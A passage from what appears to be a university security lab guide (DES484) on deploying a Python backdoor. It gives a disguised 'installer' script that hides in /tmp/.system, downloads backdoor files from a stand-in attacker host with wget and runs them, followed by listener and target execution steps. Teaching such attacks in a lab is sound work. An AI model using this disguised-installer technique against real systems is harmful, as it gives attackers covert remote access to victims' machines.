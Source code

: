 #### Method C: Exploit Simulation

**Simulate web exploit:**

```bash
# Create fake installer
cat > install.sh << 'EOF'
#!/bin/bash
echo "Installing required packages..."
cd /tmp
mkdir -p .system
cd .system
# Download backdoor (from your server)
wget http://attacker-ip:8000/server.py
wget http://attacker-ip:8000/features.tar.gz
tar -xzf features.tar.gz
python3 server.py &
EOF
```

### Phase 4: Execution

#### 4.1 Start Attacker Listener

```bash
# On attacker machine
cd ~/Desktop/DES484_Backdoor
python3 backdoor.py

# You should see:
# ╔═══════════════════════════════════════════════════════════════╗
# ║           Enhanced Backdoor Controller v2.0                   ║
# ║              For Educational Purposes Only!                   ║
# ║                  DES484 - SIIT 2024                          ║
# ╚═══════════════════════════════════════════════════════════════╝
#
# [+] Listening on 0.0.0.0:5555
# [*] Waiting for incoming connections...
```

#### 4.2 Execute Backdoor on Target

**Option 1: Direct execution:**

```bash
# On target machine
cd /tmp/DES484_Backdoor
python3 server.py

# You should see:
# [*] Attempting to connect to 192.168.1.12:5555...
# [+] Connection established!
```
